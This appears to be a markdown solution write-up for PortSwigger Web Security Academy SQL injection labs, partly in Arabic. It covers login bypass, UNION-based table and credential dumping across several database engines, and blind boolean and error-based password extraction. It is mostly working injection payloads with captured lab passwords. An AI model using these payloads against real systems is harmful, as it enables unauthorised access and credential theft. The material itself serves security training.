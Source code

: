 # Sqli 

<details>
  <summary>Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data</summary>

> ### This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

---
 
* ```url
  /filter?category=Pets
  ```
  * ```url
    /filter?category=Pets' or 1=1 --
    ```

  
</details>







<details>
  <summary>Lab: SQL injection vulnerability allowing login bypass</summary>

> ###  This lab contains a SQL injection vulnerability in the login function.
* > To solve the lab, perform a SQL injection attack that logs in to the application as the ``administrator`` user.

---


```url
csrf=Wf2ku02yY3tefRdA4rFJfn8d1Z48oOeq&username=user&password=pass
```
put username = ``administrator" --`` and write any passowrd it will be ignored anyway and if ``'`` not work try ``"``

```url
csrf=Wf2ku02yY3tefRdA4rFJfn8d1Z48oOeq&username=administrator' --&password=pass
```

  
</details>




<details>
  <summary>Lab: SQL injection attack, querying the database type and version on Oracle ⚠️</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
* > To solve the lab, display the database version string. 

* <details>
     <summary>Hint</summary>

  On Oracle databases, every ``SELECT`` statement must specify a table to select ``FROM``. If your ``UNION SELECT`` attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.
  
  There is a built-in table on Oracle called ``dual`` which you can use for this purpose. For example: ``UNION SELECT 'abc' FROM dual``   

  </details>


⚠️⚠️
<details>
  <summary>aobut union injection</summary>

✅ أولاً: "تتأكد إن أنواع البيانات في الأعمدة المتحده (unioned) متوافقة" يعني إيه؟
لما تستخدم ``UNION``، انت بتدمج نتيجتين مع بعض، فلازم الأعمدة اللي في الاستعلام الأول والتاني يكونوا نفس العدد ونفس نوع البيانات.

مثال توضيحي:
لو الاستعلام الأصلي بيرجع:

```sql
id (رقم), name (نص), email (نص)
```

فأنت لازم تكتب: 

```sql
UNION SELECT 1, 'admin', 'admin@example.com'
```
  
</details>
⚠️⚠️

----


```
/filter?category=Gifts
```
first check number of coulmns :

* ```url
  /filter?category=Gifts'union select null FROM dual--
  ```

* ```url
  /filter?category=Gifts'union select null,null FROM dual--
  ```

for check type of coulmns :

* ```url
  /filter?category=Gifts'union select 'a','a' FROM dual--
  ```

now try to know database version :

* **``Oracle :``**
   * ``SELECT banner FROM v$version``
   * ``SELECT version FROM``
   * ``v$instance``

* **``Microsoft :``**
   * ``SELECT @@version`` 

* **``PostgreSQL :``**
   * ``SELECT version()``

* **``MySQL :``**
   * ``SELECT @@version`` 



* ```url
  /filter?category=Gifts'union SELECT banner,NULL FROM v$version--
  ```



  
</details>








<details>
  <summary>Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
> To solve the lab, display the database version string. 


---

```url
' UNION SELECT 'abc','def'#
```

* ```
  ' UNION+SELECT @@version, NULL#
  ```

  
</details>






<details>
  <summary>Lab: SQL injection attack, listing the database contents on non-Oracle databases ⚠️</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> ### The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the ``administrator`` user. 


---

```
/filter?category=Gifts' union select NULL,NULL--
```

* <details>
     <summary>⚠️list tables in database⚠️</summary>




  
  ## 🔍 1. Determine the Number of Columns
  
  ```sql
  ' ORDER BY 1--
  ' ORDER BY 2--
  ...
  ' ORDER BY N--
  ```
  
  أوقف عند أول رقم يعطيك خطأ → عدد الأعمدة هو الرقم السابق.
  
  أو باستخدام `UNION SELECT NULL`:
  
  ```sql
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL--
  ```
  
  حتى لا يظهر خطأ.
  
  ---
  
  ## 🧠 2. Find Reflectable Columns (أي عمود يظهر على الصفحة)
  
  ```sql
  ' UNION SELECT 'a', NULL--
  ' UNION SELECT NULL, 'a'--
  ```
  
  غيّر مكان `'a'` لترى أين يظهر على الصفحة.
  
  ---
  
  
  
  ## 📋 4. List Tables in the Database
  
  ### 🐬 MySQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()--
  ```
  
  ### 🐘 PostgreSQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema='public'--
  ```
  
  ### 🪟 MSSQL
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables--
  -- OR --
  ' UNION SELECT name, NULL FROM sys.tables--
  ```
  
  ### 🟠 Oracle
  
  ```sql
  ' UNION SELECT table_name, NULL FROM all_tables--
  ```
  
  ---
  
  ## 📑 5. List Columns in a Table
  
  ### 🐬 MySQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ### 🐘 PostgreSQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ### 🪟 MSSQL
  
  ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
  ```
  
  ---
  
  ## 🧪 Example (MySQL)
  
  - Suppose we know the number of columns is 2, and the first column reflects to the page:
  
  ```sql
  ' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()--
  ```
  

  
 

     
   </details>


* ```sql
  ' UNION SELECT table_name,+NULL FROM information_schema.tables--
  ' union select table_name,null from all_tables --
  ```

![image](https://github.com/user-attachments/assets/5dca3238-d8de-478c-9975-a5e940982015)

```
users_qtmswl
```

found tables 

* ```sql
  ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_qtmswl'--
  ' union select column_name,null from all_tab_columns where table_name='USERS_KWPGKQ'--
  ```

found colums:

```
username_xwttla
email
password_ztcwwk
```

* ```sql
  ' UNION+SELECT username_xwttla, password_ztcwwk FROM users_qtmswl--
  ```

![image](https://github.com/user-attachments/assets/c759f3d6-5a1b-4884-885e-9b4ac82fa789)

```
administrator : 3cwvdutv09z9slmekkwm
```
  
</details>






<details>
  <summary>Lab: SQL injection attack, listing the database contents on Oracle</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
> ### The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
> To solve the lab, log in as the administrator user. 

---


```
'+UNION+SELECT+'abc','def'+FROM+dual--
```

```sql
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

* ```
  USERS_PURPGR
  ```

```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_PURPGR'--
```

* ```
  PASSWORD_BGNVEO
  USERNAME_WWJQEC
  ```

```
'+UNION+SELECT+USERNAME_WWJQEC,+ PASSWORD_BGNVEO+FROM+USERS_PURPGR--
```

* ```
  administrator
	io37vj2yyj6q36piu2uo
  carlos
	gthqs6kajajbsnpy9xc1
  wiener
	46bp8uni00wnytsv0yob
  ```



  
</details>







<details>
   <summary>Lab: SQL injection UNION attack, determining the number of columns returned by the query</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.
> To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values. 


---

```SQL
/filter?category=Pets' union select NULL --
```

```SQL
/filter?category=Pets' union select NULL,NULL --
```

```SQL
/filter?category=Pets' union select NULL,NULL,NULL --
```





</details>







<details>
	<summary>Lab: SQL injection UNION attack, finding a column containing text</summary>

> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

> The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data. 


---

```url
/filter?category=Gifts' union select 'a',NULL,NULL --
```

```url
/filter?category=Gifts' union select NULL,'a',NULL --    <== correct one
```

```url
/filter?category=Gifts' union select NULL,NULL,'a' --
```
 
</details>










<details>
	<summary>Lab: SQL injection UNION attack, retrieving data from other tables</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

> #### The database contains a different table called ``users``, with columns called ``username`` and ``password``.

> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the ``administrator`` user. 

---


```url
/filter?category=Pets' union select null,null--
```


```url
/filter?category=Pets' union select username,password from users --
```

* ```
  wiener
	n94f86gz294x7zoonr1z
  administrator
	necgrjfgn42l9sxu160v
  carlos
	sunapc1n4575hvqzdaa1
  ```







 
</details>














<details>
	<summary>Lab: SQL injection UNION attack, retrieving multiple values in a single column</summary>


> ###  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

> #### The database contains a different table called ``users``, with columns called ``username`` and ``password``.

> To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the ``administrator`` user.


---

do concatenate to values in one column 

```url
/filter?category=Gifts' union select null,username ||' ==> '|| password from users --
```

![image](https://github.com/user-attachments/assets/3e6dd0bf-cb7c-4d21-92e5-14177f69629e)


* ```
  administrator ==> qicuka8mgvvmtdzjsk76
  wiener ==> y48w02o728mfhp76c9u3
  carlos ==> n4k3vrh25quekpp6ieje
  ```

 
</details>





---


<details>
	<summary>Lab: Blind SQL injection with conditional responses (boolan)</summary>

> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

> #### The results of the SQL query are not returned, and no error messages are displayed. But the application includes a ``Welcome back`` message in the page if the query returns any rows.The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

> To solve the lab, log in as the ``administrator`` user. 



---


```http
GET / HTTP/1.1

Host: 0ab3003c04435bb280113582003400f4.web-security-academy.net
Cookie: TrackingId=sBgKk2u4kNA0mWuX; session=vLPAZFMJ5ApvFggeT85YmjbwpttZwrj8
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive


```

Notice :

```http
TrackingId=sBgKk2u4kNA0mWuX;
```

First to check if it vuln or not 

```
TrackingId=sBgKk2u4kNA0mWuX' and 1=1 --;
```
notice ``Welcome Back`` appear in page

![image](https://github.com/user-attachments/assets/738470a1-011a-4fa1-bd7e-c8a655248a27)

now make sure that there is user call ``adminstrator`` by using subquery check :

```sql
' and (SELECT  'a' FROM users WHERE username='administrator')='a' --
```

if user exist

* ```sql
  ' and 'a' = 'a' --  == True
  ```

Now start Exploiting

```
' and (SELECT  'a' FROM users WHERE username='administrator' AND LENGTH(password)=1 )='a' --
```
send request to intruder and put numbers instead of 1 until 30 for example and grep&match ``Welcome back!``see when it change the response here it is ``20``

![image](https://github.com/user-attachments/assets/29e4e810-5dbe-47e1-9e7e-31e3fefdb857)


```http
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
```

```sql
' and (SELECT  SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a' --
                                 [1]                                              [2]
```

> first ``1`` refer to first char from passowrd second ``1`` refer to this query will retrun one char 

IN INTRUDER MAKE ATTACK TYPE FROM sniper TO cluster bomb TO MULTIPLE PAYLOAD { [1],[2] } NOW IN FIRST PAYLOAD [1] MAKE IT TRY 
      FROM 1 TO 20 AND IN SECOND PAYLOAD [2] TRY FORM [a-z+0-9] AND IN SETTINGS OF INRUDER MAKE GREP-MATCH WITH YOUR VALUE 
      IN THIS EXAMPLE IS " Welcome Back! " NOW IT WILL BRUTE FORCE AND YOU WILL GIT THE PASSWORD

```
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
 p    m    i    w    y    x    x    o    a    o     z     p     b     1     x     o     c     m     q    j
```

```
pmiwyxxoaozpb1xocmqj
```
 
</details>







<details>
	<summary>Blind SQL injection with conditional errors</summary>

> ###  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
> #### The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.The database contains a different table called ``users``, with columns called ``username`` and ``password``. You need to exploit the blind SQL injection vulnerability to find out the password of the ``administrator`` user.

> To solve the lab, log in as the ``administrator`` user. 

---

to check --- internal server error---  add ``'``

```url
TrackingId=Gpf75xlv9ccLL8ZV'
```

now it injectable to what kind?? 

```url
0iLsW0UwGLuOfA5J' and 1=1 --    no error
0iLsW0UwGLuOfA5J' and 1=0 --    no error        
```

there is no error so it is not boolan blind injunction

now to detrmine it error based:

```url
TrackingId=Gpf75xlv9ccLL8ZV''  no error
```
no error appear that is mean we can do subqery inside ``' '``

to make sure that there is user called ``administrator``

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT '' FROM users WHERE username='administrator') || '--
```

no error so there is user call ``administrator`` but wait if you try to but wrong user for example 

```url
TrackingId=Gpf75xlv9ccLL8ZV' || (select '' from users where username='plaplapla') || '--
```

no error also ⚠️⚠️

so how to make sure if really there is user call ``administrator`` :

```
0iLsW0UwGLuOfA5J' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual) ||'--    error  appear because 1/0
0iLsW0UwGLuOfA5J' || (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE NULL END FROM dual) ||'--    no error 
```

now try to know if there is user call ``administrator`` with same way 

```
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator') ||'--
```

here he check **first** if there is user call ``administrator`` if there is will excute ``SELECT CASE`` statement and there will be error 

but if there is no user called ``administrator`` the ``SELECT CASE`` will not excuted and no error will appear 

now if we try fake suer ``plaplapla``

```
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='plaplapla') ||'--
```
no error appear so user not exist

now we want to konw length of passowrd:

```
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator' and LENGTH(password)=1) ||'--
```
send to intruder and select ``1`` and put value form ``1 to 30`` and when error appear that will be the length

![image](https://github.com/user-attachments/assets/400863d8-0caa-451c-bfcb-5ef297434b01)

so passowrd length is **``20``**

now brute force it :

```
TrackingId=Gpf75xlv9ccLL8ZV' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator' and substr(password,1,1)='a')||'--
```



```
[1]  [2]  [3]  [4]  [5]  [6]  [7]  [8]  [9]  [10]  [11]  [12]  [13]  [14]  [15]  [16]  [17]  [18]  [19] [20]
 y    0    x    9    p    0    p    2    c    i     2     q     1     i     u     n     d     r     x    q
```

```
y0x9p0p2ci2q1iundrxq
```


 
</details>
























## [Portsqigger cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)




































